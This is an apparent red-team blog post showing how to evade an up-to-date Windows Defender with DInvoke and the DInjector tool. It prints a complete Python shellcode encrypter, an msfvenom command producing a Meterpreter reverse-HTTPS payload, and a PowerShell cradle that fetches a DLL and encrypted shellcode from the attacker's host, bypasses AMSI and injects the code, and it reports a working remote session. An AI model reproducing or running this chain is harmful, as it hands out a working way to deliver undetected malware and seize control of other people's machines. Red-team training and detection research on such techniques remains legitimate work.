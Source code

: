 ```yaml
---
layout: single
title: "Making use of DInvoke as a better evasion practice , avoiding PInvoke & API Hooks"
date: 2021-10-26
tags:  
  - windows
  - avbypass
  - dinvoke
  - windows-defender
author_profile: true
---
```

![img](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/defender.webp)

Hello back fellow red teamers!!
Lately I have been focused on Windows stuff, such as excercises on trying to bypass Windows Defender through trial and errors etc as a practice to upgrade my own skills on red teaming.

In this article I'm going to explain how you can make use of Dynamic Invocation instead of PInvoke for a less suspicios execution.

First let's take a view :

- [https://github.com/TheWover/DInvoke](https://github.com/TheWover/DInvoke)
 
>*DInvoke is a dynamic replacement for PInvoke and contains powerful primitives that can be combined to dynamically invoke unmanaged code from disk or from memory.
It helps you use unmanaged code from C# while avoiding suspicious P/Invokes. Rather than statically importing API calls with PInvoke, you may use Dynamic Invocation to load the DLL at runtime and call the function using a pointer to its location in memory. You may call arbitrary unmanaged code from memory (while passing parameters), allowing you to bypass API hooking in a variety of ways and execute post-exploitation payloads reflectively.*

Rather than using PInvoke to import the API calls that we want to use, we load a DLL into memory manually. This can be done using whatever mechanism you would prefer. Then, we get a pointer to a function in that DLL. We may call that function from the pointer while passing in our parameters.

By leveraging this dynamic loading API rather than the static loading API that sits behind PInvoke, you avoid directly importing suspicious API calls into your .NET Assembly.

To show that little proof of concept of how it is done at a concrete target I will use [DInjector](https://github.com/snovvcrash/DInjector)

![img](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img1.png)

DInjector is a tool which is fully ported on `DInvoke` APIs and simulates the concept of executing code through dynamic invocatuion in easier steps for people like me who are generally dumb.

Below is shown the content of `encrypter.py` which takes a raw shellcode payload and encodes it using either `AES` or `XOR` up to your preference.


```python
#!/usr/bin/env python3

import os
import hashlib
from base64 import b64encode
from argparse import ArgumentParser

from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.primitives import padding
from cryptography.hazmat.backends import default_backend


class AES:

	def __init__(self, password, iv): 
		self.key = hashlib.sha256(password.encode()).digest()
		self.iv = iv

	def encrypt(self, raw):
		backend = default_backend()
		padder = padding.PKCS7(128).padder()
		raw = padder.update(raw) + padder.finalize()
		cipher = Cipher(algorithms.AES(self.key), modes.CBC(self.iv), backend=backend)
		encryptor = cipher.encryptor()
		return self.iv + encryptor.update(raw) + encryptor.finalize()


def parse_args():
	parser = ArgumentParser()
	parser.add_argument('shellcode_bin', action='store', type=str)
	parser.add_argument('-p', '--password', action='store', type=str, required=True)
	parser.add_argument('-a', '--algorithm', action='store', type=str, default='aes', choices=['aes', 'xor'])
	parser.add_argument('-o', '--output', action='store', type=str)
	parser.add_argument('--base64', action='store_true', default=False)
	return parser.parse_args()


if __name__ == '__main__':
	args = parse_args()

	with open(args.shellcode_bin, 'rb') as fd:
		shellcode = fd.read()

	if args.algorithm == 'aes':
		iv = os.urandom(16)
		ctx = AES(args.password, iv)
		enc = ctx.encrypt(shellcode)
	elif args.algorithm == 'xor':
		enc = bytearray(b ^ ord(args.password) for b in shellcode)

	if args.base64:
		print(b64encode(enc).decode())
	else:
		with open(args.output, 'wb') as fd:
			fd.write(enc)
		print(f'[+] Encrypted shellcode file: {args.output}')
```

>*OK? WHATS NEXT?*

Of course I need to compile the ``DInjector`` project which will output the `.DLL` file that is going to be loaded into the memory in order to call the shellcode.

I could use Visual Studio to compile the DLL project but doing everything in linux just fits in perfectly. I wasnt aware there was a developer tool such as ``monodeveloper`` which could handle `C#` and `.NET` compiling on linux.

![img1](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/DInjector1.png)

The walkthrough after compiling the DLL is pretty much straightforwards, I am going to create a meterpreter shellcode and have the output as raw : 

```bash
pi0x73@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_winhttps LHOST=192.168.88.142 LPORT=443 EXITFUNC=thread -f raw -o shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 906 bytes
Saved as: shellcode.bin
```

Encryping the shellcode and setting up a listener which will serve the files that we need to load on the target machine : 

![img2](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img2.png)

Before executing let's make sure Windows Defender is up to date.

![img3](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img3.png)

To load the DLL into the memory and call the shellcode you can use ``cradle.ps1`` which is part of the ``DInjector`` repo.

```powershell
# MODULE
$M = "currentthread"

# LHOST
$H = "192.168.88.142"

# AMSI
$A = "true"

# DLL
$D = "DInjector.dll"

# SHELLCODE
$S = "enc"

# PASSWORD
$P = "hahaWOW!!encrypt"

# PROCESS
$N = "notepad"

# IMAGE
$I = "C:\Windows\System32\svchost.exe"

# --------------------------------------------------------------------

$methods = @("remotethread", "remotethreadsuspended")
if ($methods.Contains($M)) {
    $N = (Start-Process -WindowStyle Hidden -PassThru $N).Id
}

$cmd = "$M /am51:$A /sc:http://$H/$S /password:$P /pid:$N /image:$I"

$data = (IWR -UseBasicParsing "http://$H/$D").Content
$assem = [System.Reflection.Assembly]::Load($data)

$flags = [Reflection.BindingFlags] "NonPublic,Static"

$class = $assem.GetType("DInjector.Detonator", $flags)
$entry = $class.GetMethod("Boom", $flags)

$entry.Invoke($null, (, $cmd.Split(" ")))
```

Clean execution , no trigger of the Antivirus and a functional meterpreter session!  
It succesfully beat a fully updated Windows Defender, I was surprised!

![img](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/main/assets/images/post2/img4.png)

### References

Most of the ``DInvoke`` concept explaination paragraphs are based on [https://thewover.github.io/Dynamic-Invoke/](https://thewover.github.io/Dynamic-Invoke/)

